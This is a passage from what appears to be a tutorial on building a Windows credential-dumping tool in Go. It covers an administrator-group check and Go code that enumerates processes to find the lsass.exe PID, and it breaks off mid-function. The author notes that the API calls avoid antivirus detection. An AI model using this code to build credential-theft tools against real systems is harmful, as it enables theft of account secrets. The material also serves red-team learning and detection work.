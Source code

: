 This function uses `AllocateAndInitializeSid` API call to retrieve SIDs information and then it checks if the user is part of the ***Administrators*** group. If the user is an admin, it returns `true`, otherwise it returns `false`.

Let's take a look about how to find lsass.exe PID. First of all we have to use some API calls like `CreateToolhelp32Snapshot` and `Process32Next`, I think that they are never detected as malicious or something like that because they just enumerate and list processes so we don't have to do anything special.

However in this case we'll be using a modified version of a function from [https://github.com/mitchellh/go-ps/blob/master/process_windows.go](https://github.com/mitchellh/go-ps/blob/master/process_windows.go)

```go
// Auxiliary function
func newWindowsProcess(e *windows.ProcessEntry32) (WindowsProcess) {
  end := 0
  for {
    if e.ExeFile[end] == 0 {
      break
    }
    end++
  }

  return WindowsProcess{
    ProcessID:       int(e.ProcessID),
    ParentProcessID: int(e.ParentProcessID),
    Exe:             syscall.UTF16ToString(e.ExeFile[:end]),
  }
}

func FindLsassPid() (int, error) {
  const TH32CS_SNAPPROCESS = 0x00000002

  handle, err := windows.CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)
  if err != nil {
    return 0, err
  }
  defer windows.CloseHandle(handle)

  var entry windows.ProcessEntry32
  entry.Size = uint32(unsafe.Sizeof(entry))

  err = windows.Process32First(handle, &entry)
  if err != nil {
    return 0, err
  }

  results := make([]WindowsProcess, 0, 50)
  for {
    results = append(results, newWindowsProcess(&entry))

    err = windows.Process32Next(handle, &entry)
    if err != nil {
      // Check if there aren't more processes
      if err == syscall.ERROR_NO_MORE_FILES {
        break
      }

      return 0, err
    }
  }

  // Iterate over all processes
  for _, proc := range results {
```